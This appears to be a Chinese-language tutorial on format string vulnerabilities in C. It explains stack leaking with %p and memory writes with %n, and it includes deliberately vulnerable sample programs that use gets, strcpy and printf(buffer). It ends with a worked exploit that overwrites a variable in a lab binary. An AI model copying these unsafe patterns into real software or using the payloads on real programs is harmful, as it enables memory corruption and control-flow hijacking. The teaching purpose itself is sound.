 # Format String Vulnerability 1



​	格式化字符串漏洞是由于不良的编程实践导致的。如果一个程序，把用户输入作为参数没有做严格的校验就使用如 `printf` 、`sprintf`、`fprintf` 这类的函数进行格式化输出。那么攻击者可以通过利用漏洞实现任意内存读写。



下面是一段示例代码：

```C
int main(int argc, char** argv) {
    char buffer[100];
    strcpy(buffer, argv[1]);
    printf(buffer);
    return 0;
}
```



`printf` 函数接收多个参数，它本身不能识别接收的参数个数，而是需要程序员通过使用格式化占位符，来指定要接收的参数个数以及参数的类型。



了解printf是如何读取多个参数的：

[this](https://www.tutorialspoint.com/cprogramming/c_variable_arguments.htm).

了解格式化占位符：

[this](http://www.cplusplus.com/reference/cstdio/printf/).



对于上面的示例代码，假设你给程序一个正常的输入，如输入你的用户名，像这样： `./string0 Rohit`

你会得到和你输入一样的字符串作为输出。但攻击者并不会按照你程序设想的来。假设你喂给程序的输入是 一个 `%x` （因为攻击者知道`printf`函数接收的第一个参数是格式化字符串，所以这没有什么奇怪的。）一个畸形的格式化字符串也许能泄露出栈上面的内容。



:astonished: 攻击者可以获取到 Stack 中的内容。​



### 获取栈上面的内容



尝试这样执行：

```bash
$ ./string0 "%p %p %p %p %p"
0xffffd7c9 0x64 0xf0b5ff 0xffffd58e 0x1
$
```
瞧，发生了什么？



`%p` 是以十六进制格式打印内存中的内容的格式化占位符。攻击者戏弄 **printf** ，通过喂给程序格式化占位符，而不是一般的字符串，让它打印出内存中的内容。这就是格式化字符串漏洞。



### 除此之外还能做什么？



不仅仅是泄露内存数据。这类型的漏洞可以允许攻击者写任意内存。要想理解写任意内存的实现原理，我们需要先弄清楚一个特殊的格式化占位符：`%n` 。这个占位符可以让 **printf** 根据后面跟的一个参数，写任意内存地址。

e.g

```C
printf("rohit%n", &i);
printf("%d", i);   //outputs to 5 == len(rohit)
```


简单讲，`%n` 把前面字符串中字符的个数写到变量`i`的地址内存中。





现在我们明确了两样东西：

* 复用格式化占位符作为 printf() 的传入参数来获取内存中的数据.
* 修改Stack上任意内存空间(变量的值).



### 来看一个实际的利用 :metal:




利用格式化字符串很重要的一点在于确定offset。首先我们需要确定大概需要跳过多少个4byte大小（x86）的内存，然后就可以触碰到buffer。为了确定这个offset，我首先输入 `AAAA` 作为buffer的起始，使用下面的payload进行测试：

​	``./string1 'AAAA %p %p %p %p %p %p %p %p %p %p %p %p'``

得到的程序输出如下：

​	`AAAA 0xffffd7af 0x64 0xf0b5ff 0xffffd57e 0x1 0xc2 0xffffd674 0xffffd57e
0xffffd680 0x41414141 0x20702520 0x25207025`



留意这里，`0x41414141` 是在程序输出中的倒数第三个。对应就是我们输入的AAAA。这就意味着我们越过9个 `%p`后，也就是第10个的时候就是我们的buffer的位置。你需要自己在自己的环境中进行测试，你可能会是跟我这里不一样的offset。

```C
#include<stdio.h>
#include<string.h>
#include<stdio.h>

int myvar;

int main(int argc, char** argv)
{
    char buffer[100];
    gets(buffer);
    printf(buffer);
    if(myvar)
        printf("Cool you changed it .. :) ");
    return 0;
}
```


​	现在，我要来证明如何使用我们已经学到的知识来改变程序的控制流。请看上面这段代码，利用前面讲的方法通过利用格式化字符串漏洞来确定到buffer的offset。进一步确定buffer的address。

`echo -e 'AAAA %p %p %p %p %p %p %p %p %p %p %p %p' | ./string1`

​	Output:

`AAAA 0x1 0xf7ffd918 0xf0b5ff 0xffffd59e 0x1 0xc2 0xffffd694 0xffffd59e
0xffffd69c 0x41414141 0x20702520 0x25207025`.

​	在我这个环境中这里同样是在 第10个位置上。:metal:

接下来思考一下：

`echo -e 'AAAA %p %p %p %p %p %p %p %p %p %n' | ./string1`

​	执行上面这段命令，会把输入的AAAA的size `8 * 4` 也就是十进制的 32 写到第10个参数所在的内存中。而第10个参数就是对应的我们的 `0x41414141` 因此，这就是说这段payload会把内存中原来的 `0x41414141` 覆写为值32。但如果内存被设置为 **read-only** 你会得到一个 `Segmentation Fault` 

​	那么对于这种情况，假如说我们喂给程序的是一个有意义的值，而不是 `0x41414141` 那又会怎样呢？如此一来，使用 `%n` 就可以把值写到我们提供的内存地址了。



​	对于上面这个案例，我们可以通过静态的方式去拿变量 `myvar` 的地址。

`objdump -t ./string1 | grep myvar`</br>
`0804a028 g     O .bss    00000004              myvar`

​	第一列所对应的就是`myvar`变量的地址。

​	接着我们要构造exploit实现修改程序中变量的值来实现修改程序后面的控制流结构。

`` echo -e `python -c "import struct; print struct.pack('<I',0x0804a028)"`"%p %p
%p %p %p %p %p %p %p %n" | ./string1``

​	得到如下的输出：

``(0x1 0xf7ffd918 0xf0b5ff 0xffffd59e 0x1 0xc2 0xffffd694 0xffffd59e 0xffffd69c
Cool you changed it .. :)``

​	:cool: 我们成功地利用了这个漏洞。



#### 学到了什么：



​	利用格式化字符串漏洞，我们可以exploit程序，实现修改任意地址内存中的值。


